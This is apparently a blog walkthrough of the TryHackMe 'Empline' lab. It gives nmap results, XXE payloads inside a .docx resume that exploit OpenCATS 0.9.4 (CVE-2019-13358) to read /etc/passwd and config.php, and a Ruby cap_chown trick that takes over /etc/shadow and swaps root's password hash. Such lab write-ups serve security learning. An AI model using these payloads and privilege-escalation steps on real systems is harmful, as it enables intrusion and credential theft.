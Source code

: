 ```yaml
---
title: Try Hack Me Empline
date: 2021-09-19T13:14:49+05:30
lastmod: 2021-09-19T13:14:49+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/thm.gif # for tryhackMe
simg: /img/blog.png

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm

draft: true
description: TryHackMe Room {Empline} solved by Animesh Roy. this is a walkthough. read more...

---
```


## OverView

|||
|---|---|
| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|Empline|![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/189112ffef41c0fa813d7d5b394a58b5.png)|
| <b> Empline [Subscription Required] </b>| [Empline](https://tryhackme.com/room/empline)|

Are you good enough to apply for this job?

## Enumeration

### Nmap

```bash
sudo nmap -sC -sV -oN nmap/init 10.10.127.35
[sudo] password for anir0y: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-19 13:18 IST
Nmap scan report for 10.10.127.35
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 86
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, SupportsCompression, FoundRows, InteractiveClient, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, ODBCClient, LongPassword, ConnectWithDatabase, SupportsLoadDataLocal, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommi
|   Salt: N|F*;+c3re'0ZUy#?Sd'|
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.67 seconds
```

|Port|service|remarks
|---|---|---|
|22|SSH|will check this one later|
|80|HTTP| web-service|
|3306|MySQL| kinda odd, usually MySQL port/services aren't exposed on external IP|

### HTTP Enumeration

#### port:80

![img](https://i.imgur.com/5JIXGQa.png)

nothing important. gobuster returns no `intresting` results.

![img](https://i.imgur.com/5M4xfrp.png)

one new `sub-domain` linked with `Employment` menu. let's add that to our local `/etc/hosts` file.

#### job.empline.thm

![img](https://i.imgur.com/GHRimOl.png)

* CMS is `opencats`
* Version 0.9.4 Countach
* A vulnerabilty `CVE-2019-13358` can be exploited.
* ref to original [blog post](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)

## Payload

### XXE on job.empline.thm

* generate the document file:

     ```python
     #!/usr/bin/env python3
     from docx import Document
     document = Document()
     paragraph = document.add_paragraph('anir0y')
     document.save('payload.docx')
     ```

* unzip the document file and add the payload to read `/etc/passwd` file.

     ```xml
     <!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
     ```

* For the second modification, we need to find and change my name(`anir0y`) which was the only content that was in the resume. We will swap out my name with this:

     `&test;`

* goto the URL: `job.empline.thm/careers/` and apply for the job with our `payload.docx` as resume.
* it worked!!!
  
     ![img](https://i.imgur.com/w4mSOfH.png)

* now let's try reading the `config.php` on root dir.

     ```xml
     <?xml version='1.0' encoding='UTF-8' standalone='yes'?>
     <!DOCTYPE test [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
     <w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:mo="http://schemas.microsoft.com/office/mac/office/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 wp14"><w:body><w:p><w:r><w:t>&test;</w:t></w:r></w:p><w:sectPr w:rsidR="00FC693F" w:rsidRPr="0006063C" w:rsidSect="00034616"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
     ```

* save it to the `payload.docx`

     ```bash
     ┌──(anir0y㉿kali)-[~/…/thm/room/empline/xxe]
     └─$ zip payload.docx word/document.xml 
     updating: word/document.xml (deflated 65%)
     ```

* reupload the file.
  
  ![img](https://i.imgur.com/D69DfgA.png)

* save the encoded output to a file and decode it with base64 decoder. you can find the  `DB creds`. as we already know `mysql` is listening on IP. let's try connecting with it.

> PS: I did try the creds for SSH; didn't worked!! :(

### MySQL

* login to remote db
  
  ![img](https://i.imgur.com/38Ccqil.png)

* found user creds:
  
  ![img](https://i.imgur.com/CePlnsF.png)

* let's crack the hash.
  
     ![img](https://i.imgur.com/kM5HkTC.png)

only password I was able to crack with `rockyou.txt` is for `george`

## User.txt

* now we have creds for `george`; SSH into the machine with his creds.
* the creds worked!!! 
* now we can read `user.txt` file.
  
  ![img](https://i.imgur.com/buJSaNJ.png)

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## root.txt

* let's run `linpeas`
* intresting finding for `Capabilities`
  
  `/usr/local/bin/ruby = cap_chown+ep`

* take ownership of `/etc/shadow` file
  
  `ruby -e 'File.chown(1002,1002,"/etc/shadow")'`

* change root password

     ```python
     python -c "import crypt, getpass, pwd; \
          print crypt.crypt('password', '\$6\$SALTsalt\$')"
     ```

     ```bash
     edit /etc/shadow with new generated hash
     # before
     root:$6$1cvOcl49$/czKHKvBaz450J3YnIvkqexT.StvdgUWzPr5X1Aitt/kxgF/i78wziX3zJQ0y8Kg9y749Qjr5EFiHmTdPsIJH/:18828:0:99999:7:::
     #now
     root:$6$SALTsalt$UiZikbV3VeeBPsg8./Q5DAfq9aj7CVZMDU6ffBiBLgUEpxv7LMXKbcZ9JSZnYDrZQftdG319XkbLVMvWcF/Vr/:18828:0:99999:7:::
     ```

* finally we can read the `root.txt` flag.

     ![img](https://i.imgur.com/7uyiAp5.png)

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
